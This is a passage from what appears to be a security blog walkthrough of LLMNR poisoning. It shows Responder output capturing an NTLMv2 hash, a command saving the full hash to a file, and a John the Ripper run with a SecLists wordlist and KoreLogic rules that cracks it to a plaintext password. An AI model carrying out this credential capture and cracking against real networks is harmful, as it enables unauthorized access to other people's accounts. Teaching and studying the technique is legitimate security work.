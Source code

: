 ``` bash
[*] Skipping previously captured hash for SKY\svctest
[SMB] Requested Share     : \\FLUIDATTACKS\IPC$
```

<div class="imgblock">

![Responder result](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331056/blog/respond-the-name/vulnerability_lutscw.webp)

<div class="title">

Figure 1. Respoder result

</div>

</div>

Here we have our hash, they are `NTLMv2 hashes`, and there we can also
view some information about the server like the OS version and the
requested share. With this, we save that user’s hash on a file.

**save hash.**

``` bash
echo 'svctest::SKY:1122334455667788:D78BEB50968B6AEA3D8A9CD04765BB6A:01010000000000008274E5E0A507D60176E66DEAF12162F90000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D00420031003200080030003000000000000000000000000030000037AE67261C1D6D0CEBBD9D3AA1803818C033512B8B0FD6DEBA539CFD272D615B0A001000000000000000000000000000000000000900220063006900660073002F0046004C00550049004400410054005400410043004B0053000000000000000000' > hashllmnr
```

And then we crack it using `John`, a `SecLists` dictionary, and
`KoreLogic` ruleset. Since `NTLMv2` hashes are harder to crack, it could
take a while, depending on your system.

**John cracking.**

``` bash
john --wordlist=/usr/share/seclists/Passwords/darkweb2017-top100.txt --rules=KoreLogic hashllmnr
```

**John output.**

``` bash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Monkey.123       (svctest)
1g 0:00:00:18 DONE (2020-03-31 17:55) 0.05518g/s 575858p/s 575858c/s 575858C/s Asdfgh.jkl13..Asdfgh.jkl24
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

And it’s cracked\! Now we can check our access running `smbmap` again
with our new set of credentials.
